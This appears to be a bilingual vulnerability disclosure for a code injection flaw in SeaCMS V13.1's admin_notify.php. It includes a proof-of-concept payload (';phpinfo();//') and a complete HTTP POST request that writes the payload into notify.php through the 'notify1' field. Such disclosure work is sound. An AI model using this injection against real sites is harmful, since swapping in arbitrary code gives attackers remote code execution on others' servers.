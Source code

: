 # SeaCMS V13.1 code injection
*SeaCMS V13.1 代码注入*
## Environment
*环境*
V13
![[https://github.com/v9d0g/CVEs/blob/main/images/Pasted%20image%2020241009103209.png]]
https://www.seacms.net/
## Analysis
*分析*
Injecting malicious code into the notification module of the member message notification module in the backend user module, the unsafe handling of the "notify" variable in the file "admin_notify. php" resulted in the injection of code.
*在后端用户模块的成员消息通知模块的通知模块中注入恶意代码，对文件“admin_notify.php”中的“notify”变量的不安全处理导致代码注入*
![[https://github.com/v9d0g/CVEs/blob/main/images/Pasted%20image%2020241009103256.png]]
## Verify
*证明*
Backend: User ->Member Message Notification ->Notification
*后台:用户->会员消息通知->通知*
![[https://github.com/v9d0g/CVEs/blob/main/images/Pasted%20image%2020241009103505.png]]
```php
;phpinfo();//
```
![[https://github.com/v9d0g/CVEs/blob/main/images/Pasted%20image%2020241009103543.png]]
Successfully injected code
*成功注入代码*
![[https://github.com/v9d0g/CVEs/blob/main/images/Pasted%20image%2020241009103552.png]]
```http
POST /d3kdjs/admin_notify.php?action=set HTTP/1.1
Host: localhost
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64; rv:131.0) Gecko/20100101 Firefox/131.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/png,image/svg+xml,*/*;q=0.8
Accept-Language: zh-CN,zh;q=0.8,zh-TW;q=0.7,zh-HK;q=0.5,en-US;q=0.3,en;q=0.2
Accept-Encoding: gzip, deflate
Content-Type: application/x-www-form-urlencoded
Content-Length: 40
Origin: http://localhost
Connection: close
Referer: http://localhost/d3kdjs/admin_notify.php
Cookie: iconSize=16x16; jenkins-timestamper-offset=-28800000; PHPSESSID=fv6b5117hu9kv7fbepjs9ie1n2; XDEBUG_SESSION=PHPSTORM; t00ls=e54285de394c4207cd521213cebab040; t00ls_s=YTozOntzOjQ6InVzZXIiO3M6MjY6InBocCB8IHBocD8gfCBwaHRtbCB8IHNodG1sIjtzOjM6ImFsbCI7aTowO3M6MzoiaHRhIjtpOjE7fQ%3D%3D
Upgrade-Insecure-Requests: 1
Sec-Fetch-Dest: iframe
Sec-Fetch-Mode: navigate
Sec-Fetch-Site: same-origin
Sec-Fetch-User: ?1
Priority: u=4

notify1=";phpinfo();//&notify2=&notify3=
```
![[https://github.com/v9d0g/CVEs/blob/main/images/Pasted%20image%2020241009103842.png]]
Malicious code successfully written to notify.chp file.
*恶意代码成功写入notify.php文件中*
![[https://github.com/v9d0g/CVEs/blob/main/images/Pasted%20image%2020241009103740.png]]
